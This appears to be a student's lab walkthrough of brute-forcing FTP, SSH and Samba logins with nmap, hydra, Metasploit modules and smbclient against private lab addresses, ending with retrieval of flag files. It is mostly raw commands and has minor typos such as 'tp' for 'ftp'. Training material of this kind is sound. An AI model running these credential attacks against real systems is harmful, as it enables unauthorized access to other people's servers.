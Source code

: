 ## Exploiting FTP
FTP (file transfer protocol) is a protocol that uses TCP port 21 and is used to facilitate file sharing between a server and client/clients

FTP authentication requires a username and password combination as a result we can perform a brute-force attack on the FTP server in order to identify legitimate

#### ProFTP Recon: Basics Lab
	nmap -sV 192.235.127.3
	/usr/share/metasploit-framework/data/wordlists/common_users.txt and password
	dictionary
	usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
	hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P
	/usr/share/metasploit-framework/data/wordlists/unix_passwords.txt 192.235.127.3 -t 4 ftp
	echo "sysadmin" > users
	nmap --script ftp-brute --script-args userdb=/root/users -p 21 192.235.127.3
	tp 192.235.127.3
	Enter username “sysadmin” and password 654321
	ls
	get secret.txt
	exit
	cat secret.txt


Exploiting SSH
	SSH (Secure Shell) is a remote administraton protocol that offers encryption and is the successor to telnet

- SSH uses TCP port 22 by default however like other services it can be configured to use any other open TCP port
- SSH authentication can be configured in two ways
	Username and password authentication
	key based authentication

## SSH Login
	nmap -sS -sV 192.245.211.3
	msfconsole
	use auxiliary/scanner/ssh/ssh_version
	set RHOSTS 192.245.211.3
	exploit
	use auxiliary/scanner/ssh/ssh_login
	set RHOSTS 192.245.211.3
	set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
	set PASS_FILE /usr/share/metasploit-framework/data/wordlists/common_passwords.txt
	set STOP_ON_SUCCESS true
	set VERBOSE true
	exploit
	sessions
	sessions -i 1
	find / -name "flag"
	cat /flag


# Exploiting SAMBA
SMB (Server message block) is a network file sharing protocol that is used to facilitate the sharing of files and peripherals between computers on a local network (LAN)

## Samba Recon: Dictionary Attack

	msfconsole
	use auxiliary/scanner/smb/smb_login
	set PASS_FILE /usr/share/wordlists/metasploit/unix_passwords.txt
	set SMBUser jane
	set RHOSTS 192.212.251.3
	exploit
	gzip -d /usr/share/wordlists/rockyou.txt.gz
	hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.212.251.3 smb
	smbmap -H 192.212.251.3 -u admin -p password1
	smbclient -L 192.212.251.3 -U jane
	smbclient //192.212.251.3/jane -U jane
	smbclient //192.212.251.3/admin -U admin
	ls
	cd hidden
	ls
	get flag.tar.gz
	exit
	tar -xf flag.tar.gz
	cat flag
	msfconsole
	use auxiliary/scanner/smb/pipe_auditor
	set SMBUser admin
	set SMBPass password1
	set RHOSTS 192.212.251.3
	exploit
	 enum4linux -r -u "admin" -p "password1" 192.212.251.3